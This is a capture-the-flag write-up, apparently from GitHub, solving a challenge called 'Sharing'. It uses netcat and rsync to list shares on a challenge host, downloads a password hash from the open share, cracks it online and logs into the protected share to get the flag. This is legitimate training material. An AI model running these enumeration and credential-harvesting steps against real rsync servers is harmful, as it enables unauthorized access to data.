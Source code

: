 # Sharing WriteUp

I started by using netcat to connect to the service.
```bash
nc challenges.ctf.sikt.no 5009
@RSYNCD: 31.0 sha512 sha256 sha1 md5 md4
```

Reading up on rsync I learned that I could just resend the same banner and then #list.

```bash
$ nc challenges.ctf.sikt.no 5009
@RSYNCD: 31.0 sha512 sha256 sha1 md5 md4
@RSYNCD: 31.0 sha512 sha256 sha1 md5 md4
#list
open           	Open share
protected      	Protected share
@RSYNCD: EXIT
```

Hmm, a open and a protected share. Lets see what the open one contains. This time using the rsync client.

```bash
$ rsync -av --list-only rsync://challenges.ctf.sikt.no:5009/open
receiving file list ... done
drwxr-xr-x        4096 2024/10/04 14:44:06 .
-rw-rw-r--         128 2024/09/03 12:23:47 password_hash.txt
-rw-rw-r--           3 2024/10/04 14:42:37 users

sent 16 bytes  received 130 bytes  58.40 bytes/sec
total size is 131  speedup is 0.90
```

Nice, a password_hash file and a users file. Using another flag with the rsync client, I downloaded the files to the
current (.) folder. `rsync -avz rsync://challenges.ctf.sikt.no:5009/open .`

I found this site (https://hashes.com/en/decrypt/hash) which cracked the hash. The users file also contained a name, ted.

Now for the protected share.
```bash
$ rsync -av --list-only rsync://ted@challenges.ctf.sikt.no:5009/protected
Password: <passord for ted>
receiving file list ... done
dr-xr-xr-x        4096 2024/10/04 14:44:05 .
-r-xr-xr-x          26 2024/09/03 12:23:47 flag.txt

sent 16 bytes  received 98 bytes  25.33 bytes/sec
total size is 26  speedup is 0.23
```

Running rsync with -avz on the protected folder allowed me to download the flag.

